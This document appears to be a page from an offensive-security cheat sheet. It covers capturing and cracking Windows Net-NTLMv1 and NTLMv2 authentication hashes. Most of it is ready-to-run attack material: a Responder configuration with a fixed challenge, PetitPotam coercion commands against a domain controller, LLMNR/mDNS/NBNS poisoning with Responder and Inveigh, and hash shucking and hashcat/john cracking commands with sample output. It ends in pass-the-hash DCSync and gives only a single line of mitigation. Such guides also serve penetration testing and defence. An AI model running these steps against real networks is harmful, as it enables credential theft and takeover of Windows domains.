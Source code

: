 # Hash - Capture and Cracking

## Capturing and cracking Net-NTLMv1/NTLMv1 hashes/tokens

> Net-NTLMv1 (NTLMv1) authentication tokens are used for network authentication (they are derived from a challenge/response DES-based algorithm with the user's NT-hash as symetric keys. 

:information_source: : Coerce a callback using PetitPotam or SpoolSample on an affected machine and downgrade the authentication to **NetNTLMv1 Challenge/Response authentication**. This uses the outdated encryption method DES to protect the NT/LM Hashes.

**Requirements**:
* LmCompatibilityLevel = 0x1: Send LM & NTLM (`reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v lmcompatibilitylevel`)

**Exploitation**:
* Capturing using Responder: Edit the `/etc/responder/Responder.conf` file to include the magical **1122334455667788** challenge
    ```ps1
    HTTPS = On
    DNS = On
    LDAP = On
    ...
    ; Custom challenge.
    ; Use "Random" for generating a random challenge for each requests (Default)
    Challenge = 1122334455667788
    ```
* Fire Responder: `responder -I eth0 --lm`, if `--disable-ess` is set, extended session security will be disabled for NTLMv1 authentication
* Force a callback:
    ```ps1
    PetitPotam.exe Responder-IP DC-IP # Patched around August 2021
    PetitPotam.py -u Username -p Password -d Domain -dc-ip DC-IP Responder-IP DC-IP # Not patched for authenticated users
    ```
* If you got some `NetNTLMv1 tokens`, you can try to **shuck** them online via [Shuck.Sh](https://shuck.sh/) or locally/on-premise via [ShuckNT](https://github.com/yanncam/ShuckNT/) to get NT-hashes corresponding from [HIBP database](https://haveibeenpwned.com/Passwords). If the NT-hash has previously leaked, the NetNTLMv1 is converted to NT-hash ([pass-the-hash](#pass-the-hash) ready) instantly. The [shucking process](https://www.youtube.com/watch?v=OQD3qDYMyYQ&ab_channel=PasswordVillage) works for any NetNTLMv1 with or without ESS/SSP (challenge != `1122334455667788`) but mainly for user account (plaintext previsouly leaked).
    ```ps1
    # Submit NetNTLMv1 online to https://shuck.sh/get-shucking.php
    # Or shuck them on-premise via ShuckNT script:
    $ php shucknt.php -f tokens-samples.txt -w pwned-passwords-ntlm-reversed-ordered-by-hash-v8.bin
	[...]
	10 hashes-challenges analyzed in 3 seconds, with 8 NT-Hash instantly broken for pass-the-hash and 1 that can be broken via crack.sh for free.
	[INPUT] ycam::ad:DEADC0DEDEADC0DE00000000000000000000000000000000:70C249F75FB6D2C0AC2C2D3808386CCAB1514A2095C582ED:1122334455667788
	        [NTHASH-SHUCKED] 93B3C62269D55DB9CA660BBB91E2BD0B
    ```
* If you got some `NetNTLMv1 tokens`, you can also try to crack them via [Crack.Sh](https://crack.sh/) (cloud service when available, more time and potentially chargeable). For this you need to format them to submit them on [Crack.Sh](https://crack.sh/netntlm/). The Converter of [Shuck.Sh](https://shuck.sh/) can be used to convert format easily.
    ```ps1
    # When there is no-ESS/SSP and the challenge is set to 1122334455667788, it's free (0$):
    username::hostname:response:response:challenge -> NTHASH:response
    NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972

    # When there is ESS/SSP or challenge != 1122334455667788, it's chargeable from $20-$200:
    username::hostname:lmresponse+0padding:ntresponse:challenge -> $NETNTLM$challenge$ntresponse
    $NETNTLM$DEADC0DEDEADC0DE$507E2A2131F4AF4A299D8845DE296F122CA076D49A80476E
    ```
* Finaly, if no [Shuck.Sh](https://shuck.sh/) nor [Crack.Sh](https://crack.sh/) can be used, you can try to break NetNTLMv1 with Hashcat / John The Ripper
    ```ps1
    john --format=netntlm hash.txt
    hashcat -m 5500 -a 3 hash.txt # for NetNTLMv1(-ESS/SSP) to plaintext (for user account)
    hashcat -m 27000 -a 0 hash.txt nthash-wordlist.txt # for NetNTLMv1(-ESS/SSP) to NT-hash (for user and computer account, depending on nthash-wordlist quality)
    hashcat -m 14000 -a 3 inputs.txt --hex-charset -1 /usr/share/hashcat/charsets/DES_full.hcchr ?1?1?1?1?1?1?1?1 # for NetNTLMv1(-ESS/SSP) to DES-keys (KPA-attack) of user/computer account with 100% success rate, then regenerate NT-hash with these DES-keys on https://shuck.sh/converter.php.
    ```
* Now you can DCSync using the Pass-The-Hash with the DC machine account

:warning: NetNTLMv1 with ESS / SSP (Extended Session Security / Security Support Provider) changes the final challenge by adding a new alea (!= `1122334455667788`, so chargeable on [Crack.Sh](https://crack.sh/)).

:warning: NetNTLMv1 format is `login::domain:lmresp:ntresp:clientChall`. If the `lmresp` contains a **0's-padding** this means that the token is protected by **ESS/SSP**.

:warning: NetNTLMv1 final challenge is the Responder's challenge itself (`1122334455667788`) when there is no ESS/SSP. If ESS/SSP is enabled, the final challenge is the first 8 bytes of the MD5 hash from the concatenation of the client challenge and server challenge. The details of the algorithmic generation of a NetNTLMv1 are illustrated on the [Shuck.Sh Generator](https://shuck.sh/generator.php) and detailed in [MISCMag#128](https://connect.ed-diamond.com/misc/misc-128/shuck-hash-before-trying-to-crack-it).

:warning: If you get some tokens from other tools ([hostapd-wpe](https://github.com/OpenSecurityResearch/hostapd-wpe) or [chapcrack](https://github.com/moxie0/chapcrack)) in other formats, like tokens starting with the prefix `$MSCHAPv2$`, `$NETNTLM$` or `$99$`, they correspond to a classic NetNTLMv1 and can be converted from one format to another [here](https://shuck.sh/converter.php).


**Mitigations**: 

* Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`

## Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

```powershell
# https://github.com/lgandx/Responder
$ sudo ./Responder.py -I eth0 -wfrd -P -v

# https://github.com/Kevin-Robertson/InveighZero
PS > .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]

# https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1
PS > Invoke-Inveigh [-IP '10.10.10.10'] -ConsoleOutput Y -FileOutput Y -NBNS Y –mDNS Y –Proxy Y -MachineAccounts Y
```

Crack the hashes with Hashcat / John The Ripper

```ps1
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```


## References

* [NTLMv1_Downgrade.md - S3cur3Th1sSh1t - 09/07/2021](https://gist.github.com/S3cur3Th1sSh1t/0c017018c2000b1d5eddf2d6a194b7bb)